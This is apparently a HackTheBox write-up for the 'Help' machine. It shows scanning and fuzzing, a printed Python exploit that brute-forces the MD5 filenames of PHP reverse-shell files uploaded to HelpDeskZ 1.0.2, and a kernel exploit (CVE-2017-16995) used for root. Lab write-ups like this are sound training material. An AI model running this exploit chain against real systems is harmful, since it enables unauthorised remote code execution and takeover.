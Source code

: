 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/addb842d-c4bf-4aed-b681-0ffc74ab64f0)

https://app.hackthebox.com/machines/Help

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I initiated the enumeration process with a rapid rustscan, revealing the existence of three open ports on the target system: 22, 80, and 3000.

```bash
sudo rustscan -a 10.10.10.121 -- -sC -sV -vv -oN help_nmap
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/63f363fd-7d91-4d9d-bbc9-8fed5c1e10a1)

```Rust
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZY4jlvWqpdi8bJPUnSkjWmz92KRwr2G6xCttorHM8Rq2eCEAe1ALqpgU44L3potYUZvaJuEIsBVUSPlsKv+ds8nS7Mva9e9ztlad/fzBlyBpkiYxty+peoIzn4lUNSadPLtYH6khzN2PwEJYtM/b6BLlAAY5mDsSF0Cz3wsPbnu87fNdd7WO0PKsqRtHpokjkJ22uYJoDSAM06D7uBuegMK/sWTVtrsDakb1Tb6H8+D0y6ZQoE7XyHSqD0OABV3ON39GzLBOnob4Gq8aegKBMa3hT/Xx9Iac6t5neiIABnG4UP03gm207oGIFHvlElGUR809Q9qCJ0nZsup4bNqa/
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHINVMyTivG0LmhaVZxiIESQuWxvN2jt87kYiuPY2jyaPBD4DEt8e/1kN/4GMWj1b3FE7e8nxCL4PF/lR9XjEis=
|   256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHxDPln3rCQj04xFAKyecXJaANrW3MBZJmbhtL4SuDYX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://help.htb/
3000/tcp open  http    syn-ack ttl 63 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan results unveiled the following insights:

- Port 22 is operational, hosting the SSH service, a default presence in most systems.
- Port 80 accommodates an HTTP server associated with the domain "help.htb," a discovery promptly added to my host configuration file.
- Additionally, port 3000 also supports an HTTP server, notably employing the "Node.js Express framework."

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Fuzzing:

Upon concluding the port scan, I proceeded to explore the "http://help.htb" domain. Regrettably, it led me to a default Apache server page, signifying no substantial breakthrough.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/f0c31e9e-9df0-4219-91de-36cb918a90d9)

My attention shifted towards port 3000, where a rather intriguing note awaited: "Hi Shiv, To gain access, please locate the credentials using the provided query."

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/828494b0-b3e3-4fa2-946c-791597e9d63f)

Conducting further exploration, I employed sub-directory enumeration on "help.htb" and was rewarded with the discovery of two new directories:

```bash
gobuster dir -u http://help.htb/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o help_web -x txt,php,congif,aspx -e -b 404,403 -k
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/76b815b2-595b-43f1-98b7-84d8b91f44d7)

While I encountered restrictions accessing the JavaScript endpoint, I successfully navigated to "help.htb/support," unveiling the presence of a "HelpDeskZ" application.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/92905cb7-05ae-488c-8668-d466e9c9e402)

To determine the viability of exploitation, I explored possible exploits for "HelpDeskZ" through the searchsploit tool. Among the results, one exploit captured my attention: "Arbitrary file upload for version 1.0.2."

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/cf470d0e-7213-41f9-83f0-8c933df4d9be)

However, before proceeding, I needed to ascertain the precise version of HelpDeskZ in operation. Consequently, I sought out the HelpDeskZ GitHub [repository](https://github.com/alitalaghat/HelpDeskZ-1.0). Simultaneously, I initiated sub-directory enumeration to unveil more clues. This endeavor led me to a GitHub repository containing various directories, possibly aligned with the application.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e3023354-426a-45f3-88f2-a7ade9d45558)

Further strengthening my belief in the version identification, the outcomes from the gobuster scan aligned remarkably well with the directories discovered on GitHub:

```bash
gobuster dir -u http://help.htb/support/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php -e -b 404,403 -k
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5e5eca4d-a4c3-407e-91b3-0074be4a6d80)

This solidified my confidence in HelpDeskZ version 1.0.2 as the target, as none of the other versions exhibited similar directory structures.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access:

Having confirmed the version of HelpDeskZ in operation, I proceeded by downloading the Python exploit from searchsploit. As the exploit elucidated:

```
The software in the default configuration allows upload for .php-Files ( !! ). I think the developers thought it was no risk, because the filenames get obfuscated when they are uploaded. However, there is a weakness in the rename function of the uploaded file

controllers httpsgithub.comevolutionscriptHelpDeskZ-1.0tree006662bb856e126a38f2bb76df44a2e4e3d37350controllerssubmit_ticket_controller.php - Line 141
$filename = md5($_FILES['attachment']['name'].time())...$ext;

So by guessing the time the file was uploaded, we can get RCE.
```
Following the steps outlined in the exploit, I crafted and submitted a ticket via the forum. I included a PHP reverse shell file, and subsequently executed the Python script. Regrettably, despite multiple attempts, I was unable to successfully trigger the execution of my shell:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/452628ea-1dd8-4e57-9c13-01b44f854eb7)

### Exploit code review & changes:

Continuing with the exploration, I scrutinized the application's source code and identified that files were uploaded to the '/ticket' directory.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e65d1588-1fbc-43c2-9740-f357f62f86a7)

Subsequently, I made pertinent changes to the exploit code. Specifically, I removed the user input argument section, manually specified the file location, and determined the file name. The resulting code reflects the modifications:

```python
import hashlib
import time
import sys
import requests
import datetime

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

''' #commented this part to stop taking user argument
if len(sys.argv) < 3:
    print "Usage {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)
'''

helpdeskzBaseUrl = 'http://help.htb/support/uploads/tickets/'
fileName = 'better_rev.php' #This is the pentest-monkey PHP reverse shell script, listening on 1337


r = requests.get(helpdeskzBaseUrl)

#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print 'found!'
        print url
        sys.exit(0)

print 'Sorry, I did not find anything'
```

Upon implementing these changes, I re-executed the code, initiated my netcat listener, and successfully obtained a shell as the "help" user. Additionally, I retrieved the user flag from the "help" user's home directory. (Pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/867ba655-85fb-4d5f-a3ac-6d6a6007ed59)
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/db85ec0b-1446-4923-8ed5-42f780f9ef78)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/cf4d8efe-2e68-4fe8-bd97-568d7e3e5c24)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Privilege Escalation:

With the user flag secured, my subsequent objective was to gain root-level privileges and ultimately acquire the root flag. To facilitate this, I embarked on a meticulous process of manual enumeration:

- I initiated a review of the sudo privileges via the command "sudo -l". However, since I did not possess the necessary user credentials, I was precluded from executing this command.
- Delving into potential cron jobs, I did not detect any active cron tasks.
- Turning my attention to the operating system's version, I determined that it was operating on "4.4.0-116-generic #140-Ubuntu".

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e474ad75-0d39-45f9-a984-921cc547834e)

Further investigation into the Linux kernel version in searchsploit revealed a vulnerability marked as "CVE-2017-16995", accompanied by an available exploit.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/98aa420e-1da0-4078-90f3-1b644165684d)


Subsequently, I retrieved and compiled the corresponding C-based exploit:

```bash
gcc 44298.c -o exploit
```

Once the exploit was successfully compiled, I transferred it to the target system and executed it.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a2dd9933-d91b-46a2-81b7-bcc72daab21e)

Upon successfully transferring and executing the exploit, I expeditiously obtained a root-level shell, thus enabling me to seize the coveted root flag. (Pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/e03f86f3-75f4-496e-9bcb-6f56dcbc19bc)
